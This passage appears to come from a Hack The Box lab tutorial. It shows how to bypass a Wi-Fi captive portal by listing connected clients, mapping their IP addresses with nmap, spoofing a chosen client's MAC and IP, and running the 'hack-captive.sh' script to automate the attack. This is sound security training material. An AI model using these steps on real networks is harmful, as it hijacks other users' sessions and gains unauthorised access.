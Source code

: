 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

B4:5C:B0:E8:FC:EB  3E:C2:CC:02:21:08  -42   24 - 36 27 3022
B4:5C:B0:E8:FC:EB  00:2f:fc:67:8a:5d  -56   36 - 48 12 1289
B4:5C:B0:E8:FC:EB  a5:5b:e6:8c:aa:9f  -16   11 - 54 6 700
B4:5C:B0:E8:FC:EB  d0:5d:8d:13:08:f7  -70   11 - 11 2 63
B4:5C:B0:E8:FC:EB  68:1b:64:41:9f:16  -61   11 - 18 5 583
B4:5C:B0:E8:FC:EB  58:1b:6f:99:28:ee  -29   36 - 54 8 910
B4:5C:B0:E8:FC:EB  c8:96:f6:22:9a:bf  -73   11 - 36 3 255
B4:5C:B0:E8:FC:EB  e4:28:4b:41:3e:3d  -52   24 - 48 7 759
B4:5C:B0:E8:FC:EB  80:6c:b7:ea:3d:8a  -26   54 - 54 4 441
B4:5C:B0:E8:FC:EB  90:53:22:15:e6:71  -62   11 - 18 2 159
B4:5C:B0:E8:FC:EB  5c:1a:cf:b5:8f:cc  -18   11 - 18 9 1031
</code></pre>
<p>After compiling a list of MAC addresses from connected clients, the next step is to identify their corresponding <code>IP addresses</code>. This can be achieved using the nmap command and filtering the results with <code>awk</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo nmap -v -n -sn  192.168.0.1/24  | awk '/is up/ {print up}; {gsub (/\(|\)/,""); up = $NF}/MAC Address:/{print " =&gt; "$3;}'

192.168.0.1
 =&gt; 52:CD:8C:79:AD:87
192.168.0.58
 =&gt; 80:6c:b7:ea:3d:8a
192.168.0.59
 =&gt; 90:53:22:15:e6:71
192.168.0.60
 =&gt; 5c:1a:cf:b5:8f:cc
</code></pre>
<p>Having identified a target client to impersonate, we can now proceed with MAC address spoofing. By changing our MAC address to match the selected client's MAC, we can potentially bypass the captive portal as an authenticated device (assuming the client already has an active session within the Wi-Fi network).</p>
<p>To do this on a Linux system, we first take the network interface down, change the MAC address to match with the selected client, and then bring it back up:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo ifconfig wlan0 down
[!bash!]$ sudo macchanger -m 5c:1a:cf:b5:8f:cc wlan0
[!bash!]$ sudo ifconfig wlan0 up
</code></pre>
<p>After successfully spoofing the target client's MAC address, we must also spoof their IP address and configure the correct default gateway to ensure network connectivity.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo ifconfig wlan0 192.168.0.60 netmask 255.255.255.0
[!bash!]$ sudo route add default via 192.168.0.1
</code></pre>
<p>We check if we can now communicate as the spoofed client:</p>
<img class="website-screenshot" data-url="http://captive.htb.local" src="https://academy.hackthebox.com/storage/modules/299/macspoof/002_.png"/>
<hr/>
<h3>Automating the Attack</h3>
<p>To automate this attack, we can use the <a href="https://raw.githubusercontent.com/crishoj/hack-captive-portals/refs/heads/master/hack-captive.sh">hack-captive</a> script. In the lab environment, script is available in the Desktop folder. This script automates the process of identifying authenticated clients, extracting their MAC and IP addresses, and spoofing them to bypass captive portals.</p>
<p>We start by cloning the tool from GitHub, ensuring that <code>sipcalc</code> and <code>nmap</code> are installed, and updating the permissions on our bash script to make it executable.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo apt -y install sipcalc nmap
[!bash!]$ git clone https://github.com/systematicat/hack-captive-portals.git
[!bash!]$ cd hack-captive-portals
[!bash!]$ sudo chmod u+x hack-captive.sh
</code></pre>
<p>Once we are connected to the Wi-Fi network, we can launch our MAC/IP spoofing attack.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo bash hack-captive.sh
